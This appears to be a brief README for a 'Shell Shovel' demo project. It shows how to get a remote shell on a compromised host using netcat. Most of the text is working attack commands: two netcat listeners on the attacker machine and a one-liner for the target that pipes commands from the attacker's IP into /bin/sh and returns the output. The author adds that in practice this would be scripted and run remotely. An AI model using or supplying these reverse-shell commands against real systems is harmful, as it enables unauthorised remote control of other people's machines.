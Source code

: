 Shell Shovel
============

I put this together to demonstrate shell shoveling using netcat.


## Running the demo

On your localhost run shovel-input.sh and shovel-display.sh

Be sure your iptables rules are set to allow access to the ports.

For the sake of demonstration we will localhost is at 192.168.1.100


### In terminal window 0x1

```$ ./shovel-input.sh 41337```

You could run the following instead.

```$ nc -vn -l -k -p 41337```

After the next two things are running, come back here to run commands that
will be executed on the target host and display in the next terminal,
window 0x2.

### In terminal window 0x2

```$ ./shovel-display.sh 41338```

You could run the following instead.

```$ nc -l -k -vn -p 41338```

The output of commands executed in window 0x1 will appear here.


### From the remote/compromised host

Do the netcat shoveling magic.

```$ ./target.sh 192.168.1.100 41337 41338```

You could also run the following instead.

```$ nc -vn 192.168.1.100 41337 | /bin/sh | nc -vn 192.168.1.100 41338 > /tmp/foo.bar```

In practice something like this would be scripted and executed remotely.

